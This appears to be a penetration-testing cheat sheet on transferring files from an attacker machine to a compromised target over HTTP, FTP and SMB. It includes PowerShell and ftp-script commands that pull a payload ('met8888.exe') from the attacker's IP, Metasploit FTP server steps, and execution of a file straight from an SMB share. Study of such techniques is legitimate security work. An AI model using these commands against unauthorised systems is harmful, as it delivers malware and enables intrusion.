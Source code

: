 # File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

### <span style="color:green">HTTP</span>

**On attacker machine**:

#### <span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


#### <span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

### <span style="color:green">FTP</span>

#### vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

#### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">your_ip_address</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 

### <span style="color:green">SMB</span>

**On attacker machine**:

> smbserver.py shareName sharePath 
> (e.g. smbserver.py TMP /tmp)

Check with smbclient
> smbclient -L \[your ip address\] --no-pass

**On target machine**:
or check on Windows
> net view \\\[attack machine ip address\]

Copy file 
`copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB
`\\[your ip address]\file.exe`


